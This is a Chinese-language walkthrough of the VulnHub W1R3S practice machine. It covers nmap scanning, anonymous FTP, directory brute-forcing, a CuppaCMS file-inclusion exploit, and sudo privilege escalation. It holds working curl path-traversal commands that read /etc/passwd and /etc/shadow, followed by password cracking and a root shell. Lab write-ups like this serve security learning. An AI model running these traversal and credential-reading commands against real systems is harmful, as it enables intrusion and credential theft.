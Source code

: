 # 环境

来自[W1R3S](https://www.vulnhub.com/entry/w1r3s-101,220/)

# 信息收集

## 主机发现

```bash
sudo nmap -sn 192.168.88.0/24
```

确定主机`192.168.88.29`

![image-20240701193108644](image/image-20240701193108644.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.29
```

开放端口`21,22,80,3306`

![image-20240701193134027](image/image-20240701193134027.png)

## 服务探测

```bash
sudo nmap -sV -O -p21,22,80,3306 192.168.88.29
#想要信息更多可以尝试脚本扫描
sudo nmap -sV -sC -O -p21,22,80,3306 192.168.88.29
sudo nmap --script=vuln -p21,22,80,3306 192.168.88.29
```

![image-20240701201115160](image/image-20240701201115160.png)

## ftp渗透

```bash
#根据上面nmap脚本扫描结果，ftp可以使用匿名登录
ftp 192.168.88.29
用户名：anonymous
密码为空
#养成一个ftp切换二进制模式的好习惯(防止下载的二进制文件损坏)
ftp>binary  #或者bin
ftp>prompt  #切换多文件下载交互模式
ftp>mget *.txt#下载所有文件到本地
```

![image-20240701201520572](image/image-20240701201520572.png)

01.txt，03.txt都没啥用

02.txt里面的hash解密是`This is not a password`base64解密是`It is easy, but not that easy..`

employee-names.txt里面是员工名单

worktodo.txt是反转字符，` ı qouˋt thıuk thıƨ ıƨ the way to root!,we have a ןot of work to do‘ stop pןayıng around˙˙˙˙`

没啥利用信息

## 目录爆破

```bash
dirsearch -u http://192.168.88.29
#得到有效目录，继续二级目录爆破
dirsearch -u http://192.168.88.29/administrator
dirsearch -u http://192.168.88.29/wordpress
```

发现信息

```bash
http://192.168.88.29/wordpress/wp-login.php #这个登录不行，会到http://localhost
http://192.168.88.29/administrator/installation/
```

![image-20240701213835353](image/image-20240701213835353.png)

![image-20240701213845479](image/image-20240701213845479.png)

## 指纹识别

```
whatweb http://192.168.88.29/administrator
```

发现是cuppaCMS

![image-20240701213934736](image/image-20240701213934736.png)

# web渗透

## 已知cms漏洞getshell

```
searchsploit cuppa
searchsploit -m 25971
```

发现是远程文件包含漏洞

![image-20240701214127622](image/image-20240701214127622.png)

查看利用文件，存在一个`alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`

我们尝试访问

![image-20240701214428551](image/image-20240701214428551.png)

有没有可能是post请求，可以百度cuppaCMS的源码进行验证，[相关源码](https://github.com/CuppaCMS/CuppaCMS/blob/master/alerts/alertConfigField.php)

![image-20240701214708725](image/image-20240701214708725.png)

的确是post请求，可以用burpsite也可以使用curl

```bash
curl --data-urlencode 'urlConfig=../../../../../../../../etc/passwd' http://192.168.88.29/administrator/alerts/alertConfigField.php
curl --data-urlencode 'urlConfig=../../../../../../../../etc/shadow' http://192.168.88.29/administrator/alerts/alertConfigField.php
curl -X POST -d 'urlConfig=../../../../../../../../etc/passwd' http://192.168.88.29/administrator/alerts/alertConfigField.php
curl -X POST -d 'urlConfig=../../../../../../../../etc/shadow' http://192.168.88.29/administrator/alerts/alertConfigField.php
```

得到用户的密码哈希值，进行john破解

![image-20240701220136849](image/image-20240701220136849.png)

重要信息

```bash
用户：w1r3s
密码：computer
ssh w1r3s@192.168.88.29

用户：www-data
密码：www-data
```

## 提权

```
sudo -l
sudo /bin/bash
```

发现这个用户有很大权限

![image-20240701220003903](image/image-20240701220003903.png)
